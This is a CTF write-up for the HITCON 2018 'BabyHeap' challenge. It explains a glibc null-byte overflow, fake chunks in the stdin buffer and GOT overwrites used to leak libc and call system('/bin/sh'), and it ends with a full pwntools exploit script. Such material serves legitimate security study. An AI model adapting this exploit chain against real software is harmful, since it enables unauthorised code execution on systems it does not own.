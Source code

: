 ```yaml
---
title: BabyHeap - HITCON CTF 2018
date: 2019-01-07 13:00:00
categories:
  - Pwn
  - linux
  - heap
tags:
  - CTF
  - Writeup
  - Pwn
thumbnailImagePosition: right
---
```


Linux GLIBC Heap Exploitation of a null-byte overflow
<!-- excerpt -->

```
#########################
        Baby Heap
#########################
 1 . New
 2 . Delete
 3 . Edit
 4 . Exit
#########################
Your choice:
```

The program lets me create a structure in the heap. The structure goes like this

```c++
struct data {
	unsigned long size;
	char name[8];
	char * content;
}
```
I can also free and edit the structure, but each of these actions can be performed only once.

### Checksec
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### The vulnerability
The bug is quite straight forward, there is a **null byte overflow** when I enter the name, partially overwriting the content pointer on the structure.
```
gdb-peda$ x/10gx 0x00603000
0x603000:    0x0000000000000000    0x0000000000000021
0x603010:    0x0000000000000400    0x6262626262626262
0x603020:    0x0000000000603000    0x0000000000000411
0x603030:    0x6161616161616161    0x6161616161616161
0x603040:    0x6161616161616161    0x6161616161616161
```

I can see that the content pointer points to the structure, letting me overwrite the content pointer.
There is no view functionality that could possibly give us a leak, also PIE is disabled, so I am assuming we have to overwrite atoi() GOT entry with printf() to get libc leak.
But the above method requires me to use the Edit functionality twice, which is not possible, this got me stuck and thinking.

I was just going through the program memory, and I saw that there is only a stdout file structure pointer in .bss section. This means that stdin input will get buffered in the heap (You can see this is the program decompilation, but I didn't pay much attention to the init() function). 
Scanf() is being used only when you exit (the y/n option looked fishy in the first place).

The buffer chunk in heap is of size 0x1010, having the structure after this chunk looks good. 
```bash
gdb-peda$ x/16gx 0x00705000+0xfe0
0x705fe0:    0x6161616161616161    0x6161616161616161
0x705ff0:    0x0000000000000000    0x0000000000000211
0x706000:    0x0000000000000000    0x0000000000000000
0x706010:    0x0000000000000000    0x0000000000000021
0x706020:    0x0000000000000400    0x4242424242424242
0x706030:    0x0000000000706000    0x0000000000000411
0x706040:    0x4141414141414141    0x4141414141414141
0x706050:    0x4141414141414141    0x4141414141414141
```

In the previous scenario, the content pointer was pointing to the structure, calling the free() upon it would end up in an error as that pointer wasn't a valid chunk.

Now I can create ovelapping chunks in heap.
I create a fake chunk in the stdin buffer and free it, since content points to memory in the stdin buffer. I also place fake chunks appropriately so the sanity checks and double free corruption checks are bypassed.

Allocating the same chunk again, I have complete control over the structure. Now I can change the content pointer to a GOT address and later edit it.

Here's what I am going to do:
* Overwrite atoi() GOT with printf() PLT and get a libc leak.
* Overwrite aoit() GOT again with system() and get my shell. 

To accomplish this I need the "Edit" functionality more than once.
To bypass the one time edit constraint, I overwrite the exit() GOT with a ret ropgadget. 
Look at the dissassembly of the Edit:
```nasm
0x400b61:	push   rbp
0x400b62:	mov    rbp,rsp
0x400b65:	mov    rax,QWORD PTR [rip+0x201544]        
0x400b6c:	test   rax,rax
0x400b6f:	je     0x400b7b
0x400b71:	mov    eax,DWORD PTR [rip+0x20152d]        
0x400b77:	test   eax,eax
0x400b79:	je     0x400b8f
0x400b7b:	mov    edi,0x400e0a
0x400b80:	call   0x400760 <puts@plt>
0x400b85:	mov    edi,0x0
0x400b8a:	call   0x400740 <_exit@plt>     # A ret here will remove the constraint
0x400b8f:	mov    edi,0x400e19
0x400b94:	mov    eax,0x0
0x400b99:	call   0x400780 <printf@plt>
0x400b9e:	mov    rax,QWORD PTR [rip+0x20150b]        
0x400ba5:	mov    rax,QWORD PTR [rax]
0x400ba8:	mov    edx,eax
0x400baa:	mov    rax,QWORD PTR [rip+0x2014ff]        
0x400bb1:	mov    rax,QWORD PTR [rax+0x10]
0x400bb5:	mov    esi,edx
0x400bb7:	mov    rdi,rax
0x400bba:	call   0x400975
0x400bbf:	mov    eax,DWORD PTR [rip+0x2014df]        
0x400bc5:	add    eax,0x1
0x400bc8:	mov    DWORD PTR [rip+0x2014d6],eax        
0x400bce:	mov    edi,0x400e28
0x400bd3:	call   0x400760 <puts@plt>
0x400bd8:	nop
0x400bd9:	pop    rbp
0x400bda:	ret
```

I still can't change the content pointer in the structure, have to get to atoi() GOT from exit() GOT.

### Here is my exploit code
```python
from pwn import *

s=process("./babyheap",env={'LD_PRELOAD' : './libc.so.6'})
libc=ELF("./libc.so.6")


def new(size,content,name):
	s.sendlineafter("Your choice:",str(1))
	s.sendlineafter("Size :",str(size))
	s.sendlineafter("Content:",content)
	s.sendafter("Name:",name)

def remove():
	s.sendlineafter("Your choice:",str(2))

def edit(content,f=0):
	if(f==0):
		s.sendlineafter("Your choice:",str(3))
	else :
		s.sendlineafter("Your choice:",str(4))
	s.sendafter("Content:",content)

def exit(content):
	s.sendlineafter("Your choice:",str(4))
	s.sendafter("Really? (Y/n)",content)

def ed(content,ch=3):
	s.sendlineafter("Your choice:",str(ch))
	s.sendafter("Content:",content)

exit_got=0x602020
edit_addr=0x400b8f
ret=p64(0x0000000000400711)
free                =p64(0x400730)
exit_plt              =p64(0x400740)
read_chk          =p64(0x400756)
puts                =p64(0x400766)
stack_chk_fail    =p64(0x400776)
printf              =p64(0x400786)
alarm               =p64(0x400796)
read                =p64(0x4007a6)
libc_start_main   =p64(0x4007b6)
signal              =p64(0x4007c6)
malloc              =p64(0x4007d6)
setvbuf             =p64(0x4007e6)
atoi                =p64(0x4007f6)
scanf      =p64(0x400806)

# Creating a fake chunk in the stdin buffer.
exit("n".ljust(0x1000-0x20,"a") + p64(0x00) + p64(0x211))

# Creating a new structure and freeing the fake chunk.
new(0x400,"A"*0x1c0 + p64(0x00) + p64(0x21) + "a"*0x10 + p64(0x00) + p64(0x21),"B"*8)
remove()

# Allocating the fake chunk to changing the content pointer to exit() GOT in the structure.
new(0x200,"a"*0x10 + p64(0x00) + p64(0x21) + p64(0x200) + p64(0x00) +p64(exit_got) +p64(0x411),"b"*5)

# Editing exit() GOT with ret instruction.
edit("\x11\x07\x40")

# Editing atoi() GOT with printf() PLT to get libc leak.
ed(ret + read_chk + puts + stack_chk_fail + printf + alarm + read + libc_start_main + signal + malloc + setvbuf + printf + scanf)
s.sendlineafter("Your choice:","%p%p\n%p")
s.recvline()
libc_base=int(s.recvline(),16)-0x116cdc
log.info("LIBC_LEAK = " + hex(libc_base))
system = libc_base + libc.symbols['system']

# overwriting atoi() GOT with system() to get shell.
ed(ret + read_chk + puts + stack_chk_fail + printf + alarm + read + libc_start_main + signal + malloc + setvbuf + p64(system) + scanf,"11")
s.sendlineafter("Your choice:","/bin/sh")

s.interactive()
```
